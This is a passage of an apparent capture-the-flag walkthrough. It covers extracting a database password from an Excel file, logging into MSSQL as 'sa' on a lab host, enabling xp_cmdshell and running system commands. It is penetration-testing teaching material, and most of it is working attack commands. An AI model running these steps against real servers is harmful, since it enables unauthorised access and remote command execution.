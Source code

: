 Unzip Excel files and extract credentials from `xl/sharedStrings.xml`:  
```bash
xmlstarlet sel -t -m "//si" -v "t" -n accounts.xml | awk 'NR<=5 {header[NR]=$0; next} {printf "%s\t", $0; if (NR%5==0) print ""}'
```

**Credentials Found:**  
- **Username:** sa  
- **Password:** MSSQLP@ssw0rd!

## 3. MSSQL Enumeration

Test MSSQL credentials:  
```bash
nxc mssql 10.10.11.51 -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth
```

Connect to MSSQL:  
```bash
python3 mssqlclient.py sa:'MSSQLP@ssw0rd!'@10.10.11.51
```

Verify MSSQL version:  
```sql
SELECT @@version;
```

List databases:  
```sql
SELECT name FROM sys.databases;
```

Check `xp_cmdshell` status:  
```sql
EXEC sp_configure 'xp_cmdshell';
```

Enable `xp_cmdshell` if disabled:  
```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

Execute system command:  
```sql
EXEC xp_cmdshell 'whoami';
```

## 4. File Discovery

Search for `.txt` files:  
```sql
EXEC xp_cmdshell 'dir C:\*txt /s';
```

No useful `.txt` files found. Search other directories:  
```sql
EXEC xp_cmdshell 'dir C:\SQL2019 /s';
```

